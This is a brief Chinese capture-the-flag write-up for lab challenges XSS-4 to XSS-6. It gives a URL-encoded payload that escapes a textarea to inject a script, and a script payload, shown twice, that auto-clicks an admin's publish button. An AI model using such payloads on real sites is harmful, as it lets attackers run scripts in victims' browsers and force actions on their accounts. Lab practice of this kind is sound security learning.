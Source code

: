 

# 19-XSS-4

exp

```
hacker@web-security~xss-4:~$ /challenge/victim "http://challenge.localhost:80/?msg=%3C%2Ftextarea%3E%3Cscript%3Ealert%28%22PWNED%22%29%3C%2Fscript
%3E%3Ctextarea%3E"
```

也就是实现：

```
msg=</textarea><script>alert("PWNED")</script><textarea>
```



# 20-XSS-5

```javascript
<script>
// 获取表单中的提交按钮元素
const publishButton = document.querySelector('form[action="publish"] input[type="submit"]');

// 每秒自动点击一次该按钮
setInterval(() => {
    if (publishButton) {
        publishButton.click();
        console.log('Clicked on "Publish All Drafts" button');
    } else {
        console.log('Publish button not found.');
    }
}, 1000);  // 每1秒点击一次
</script>
```

就是admin登录后就自动点击这个publish。

# 21-XSS-6

和5是一样的题解。我觉得我的题解是非预期解。

```javascript
<script>
// 获取表单中的提交按钮元素
const publishButton = document.querySelector('form[action="publish"] input[type="submit"]');

// 每秒自动点击一次该按钮
setInterval(() => {
    if (publishButton) {
        publishButton.click();
        console.log('Clicked on "Publish All Drafts" button');
    } else {
        console.log('Publish button not found.');
    }
}, 1000);  // 每1秒点击一次
</script>
```
